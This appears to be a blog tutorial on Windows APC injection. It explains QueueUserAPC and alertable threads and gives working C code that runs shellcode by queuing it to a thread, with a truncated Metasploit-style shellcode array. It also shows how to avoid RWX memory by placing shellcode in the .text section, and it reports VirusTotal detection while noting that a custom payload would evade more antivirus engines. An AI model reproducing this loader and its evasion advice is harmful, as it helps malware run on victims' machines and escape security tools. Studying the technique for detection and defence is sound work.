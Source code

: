 ```yaml
---
description: >-
  Injecting shellcode into legitimate process by abusing the Windows APC
  technique
---
```


# APC Injection

## Introduction

APC (Asynchronous Procedure Call) is a function that executes asynchronously (as the name suggests) in the context of a particular thread. These are generally used for I/O stuff, etc. \
Each thread has its own APC queue. An application queues an APC to a thread by calling the [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function. The calling thread specifies the address of an APC function in the call to **QueueUserAPC**.  When an APC is queued, a request is made for the thread to call the APC function.

It's like OS saying to the thread "Hey, look at this whenever you have the time." Now the importante thing to note is that it is only possible to queue an APC for a thread if and only if that particular thread is in alertable state. According to MSDN

> A thread enters an alertable state when it calls the [**SleepEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex), [**SignalObjectAndWait**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait), [**MsgWaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/desktop/api/Winuser/nf-winuser-msgwaitformultipleobjectsex), [**WaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex), or [**WaitForSingleObjectEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex).

&#x20;If we queue the APC for any non-alertable thread, we would have to wait until it goes into an alertable state and then it will run our code.&#x20;

Now let's take a look at the function [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**.**

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

* <mark style="color:purple;">**dwData**</mark> - A single value that is passed as parameter to the function to be called.
* <mark style="color:purple;">**hThread**</mark> - Handle to the thread in alertable state. It must have the **THREAD\_SET\_CONTEXT** access right.
* <mark style="color:purple;">**pfnAPC**</mark> - A pointer to the APC Function to be called.

If the function succeeds, the return value will be non-zero, else it will be 0 (failure).

### Simple explaination

Imagine you work in a company and you are currently doing an important task which will take you an hour to do. But then your boss comes in and hands you some files to verify later. Now you have become a thread and your boss has queued an APC call, you won't stop your work immediately to do the verification but you will have to do it after you finish your task. This is the case with Regular APC calls.

Special User-Mode APC calls are a bit special. Now imagine the same scenario where you are doing the task but this time, the CEO of your company has approached you with a "really important" task to do it immediately. You would then have to pause your work and finish the CEO's work first and only then resume what you were doing. The problem here is that since you have only 1 notebook and you do both of the work in it, there is a possibility of "[race condition](https://en.wikipedia.org/wiki/Race_condition)" and messing things up. That's why special care needs to be taken when running the special APC.



## Execution Flow

1. Create a thread that runs any function which allows it to switch to alertable state.
2. Inject the shellcode into Process Memory.
3. Call QueueUserAPC with the shellcode base address as the function.

## APC Injection

Alright, so first we will create another function which would contain any of the function that helps the thread to switch to alertable state. Those are  [`SleepEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)`,`[`SignalObjectAndWait`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)`,`[`WaitForSingleObjectEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)`,`[`WaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)`,` [`MsgWaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex). I have used `SleepEx` for simplicity. Note that the 2nd Parameter should be set to `TRUE` for the Thread to go in alertable state.

```c
VOID Aleeert() {
	info("Thread ID : %d", GetCurrentThreadId());
	SleepEx(INFINITE, TRUE);
}
```

Now we just have to allocate memory for our shellcode and give it to the `QueueUserAPC` to run it.

```c
int main() {
	HANDLE hThread = NULL;
	info("Main Thread : %d", GetCurrentThreadId());
	hThread = CreateThread(NULL, 0, Aleeert, 0, 0, NULL);
	
	PVOID pFunc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(pFunc, shellcode, sizeof(shellcode));
	
	//Sleep(1);

	// Not necessary to typecast pFunc but me do me
	QueueUserAPC((PAPCFUNC)pFunc, hThread, NULL);
	// if we don't wait for the thread to finish execution
	// program exits before the thread is able to run our shellcode
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);

	return 0;
}
```

Here I did notice that if we do not have the Sleep function, I don't see the print statement in the function although the thread does execute our shellcode&#x20;

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

But when I do have the Sleep function, I see the print statement in the `Aleeert` function. After a failed chatgpt interaction and a little document searching, I found this on MSDN,

> If an application queues an APC before the thread begins running, the thread begins by calling the APC function. After the thread calls an APC function, it calls the APC functions for all APCs in its APC queue.

So it means that our code was queued even before the thread got the time to run the function, this I can prove by removing the `SleepEx` function which means that our **thread** should not be in the **alertable** state yet it runs our shellcode because of us queueing it before it can even run.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

One thing to note is that we still are allocating memory with `PAGE_EXECUTE_READWRITE` which is a **very big red flag** that we are doing something suspicious. We can eliminate that by allocating our shellcode to the `.text` section as I have shown here\[link] previously.

```c
#pragma section(".text")

__declspec(allocate(".text")) char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
....
```

And we see that we are able to execute our shellcode neatly without allocating any RWX memory.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Alright since we technically haven't played with alertable thread yet, I'll create a thread that goes into alertable state and only then do we queue the APC for it to run.

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

We know that the thread was in alertable state since it did ran our shellcode, you can try removing the `SleepEx` function and run the program again, the shellcode won't run since the thread wont be in alertable state.

## VirusTotal

Out of curiousity, I wanted to check this against VirusTotal and I was kinda surprised at the rate of detection ( 423094eabcc7ffa09ba35d3c6df2d3a4cecc9505fcd9bb4e629cb675c2e5e122 ). I have used the binary where I allocate shellcode in `.text` section.

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

This is not bad because almost all of them AV flagged this because of the msf payload, so if we were to use any other custom payload, the rate will go considerably low.

Alright that's it for now, This became lengthier than what I was expecting so I have broken it into 2 parts, ciao. I'll be back with more interesting techniques to talk about, probably system calls, but there are soo many more things to explore. Hopefully, I was good enough to help you understand how this works.

## References

* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)









